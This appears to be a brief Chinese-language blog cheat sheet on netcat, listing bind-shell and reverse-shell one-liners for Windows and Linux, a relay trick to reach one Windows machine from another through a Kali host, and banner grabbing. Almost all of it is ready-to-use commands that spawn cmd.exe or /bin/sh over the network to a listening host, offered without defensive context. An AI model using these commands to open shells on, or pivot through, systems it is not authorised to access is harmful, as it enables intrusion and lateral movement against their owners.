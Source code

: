 ```yaml
---
title: nc使用
date: 2017-5-6 8:50:30
tags: Tool
toc: true
---
```


## 正向连接
---
目标监听一个port

	nc -l -p port -e cmd.exe //win
	nc -l -p port -e /bin/sh //linux

本机连接

	nc ip port
	
## 反向连接
---
本地监听一个端口

	nc -vv -l -p port
	
目标连接

	nc -e cmd.exe ip port //win
	nc -e /bin/sh ip port //linux

## 打洞(win)
---
用win1访问win2

	kali:  nc -lvp 4444
	windows2 : nc -lvp 4444 -e cmd.exe
	windows1 : nc -v kali-ip 4444 -c "nc -v win2-ip 4444"
	
有延迟，多按几次
linux 同理

## banner
---
	nc www.xxx.com 80
